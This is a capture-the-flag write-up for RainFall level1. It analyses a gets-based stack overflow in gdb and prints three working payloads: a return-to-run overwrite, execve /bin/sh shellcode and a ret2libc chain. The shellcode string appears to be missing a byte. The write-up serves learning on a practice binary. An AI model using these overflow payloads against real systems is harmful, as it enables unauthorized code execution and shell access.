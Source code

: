 # level1

The binary presents doesn't take any arguments. It reads from `stdin` and do nothing if the input is less than 76 characters. And segfaults if the input is more  or equal than 76 characters.


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level1/source.c) 

`run` pops a shell but it is never called

`gets` is used to read the input. `gets` is vulnerable to buffer overflow.

```console
NAME
       gets - get a string from standard input (DEPRECATED)

SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.

       gets()  reads  a  line  from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

## Goal  



Overflow the buffer to overwrite the __return address__ of the function `main` with the address of the function `run`. It will make the `next instruction pointer (eip)` to point to `run`.

```bash 
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

`run` is at `0x08048444` __which is `0x44\x84\x04\x08` in little endian__. [see here](https://www.geeksforgeeks.org/little-and-big-endian-mystery/)




```console
level1@RainFall:~$ gdb level1 
(gdb) b *main+16
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) disas
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
=> 0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x $eax
0xbffff6f0:	0x08048400
(gdb) p  0xbffff73c - 0xbffff6f0
$1 = 76
```

`eax` of `gets` will write at `0xbffff6f0`. The `eip` is at `0xbffff73c`. So we want to overwrite `eip` and write address of `run` in, by overflowing `eax`.

> 76 bytes between `eax` and `eip`

> Illegal instruction if the input is equal to 76 characters because EOL is not an instruction.

## Exploit with `run`

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat)  | ./level1
```


Or

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"') > /tmp/payload
cat /tmp/payload - | ./level1
```

> `cat` and `-` are used to keep the stdin open


## Exploit with shellcode

Write a shellcode at the start of the buffer. and overwrite the return address with the address of the buffer.

The shellcode are instructions that will pop a shell: [found here](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)

shellcode size = 23 bytes

```bash
(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * (76-23) + "\xf0\xf6\xff\xbf"'; cat) | /home/user/level1/level1
```
> `\xf0\xf6\xff\xbf` is the address of the buffer.


## Exploit with ret2libc

Return to libc use the dependencies linked to the binary. and and use it  to pop a shell. [see here](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

```bash
(python -c 'print "a" * 76 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat ) | /home/user/level1/level1
```


First: address of system: `(gdb) p system`  
Second: address of exit: `(gdb) p exit`  
Third: address of "/bin/sh": `find &system,+9999999,"/bin/sh"`

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

> - Adresses are found in the main frame  
> - Dont forget to run the binary with the same environment as in gdb (give the entirer path to the binary and/or unset LINES COLUNMS)

https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it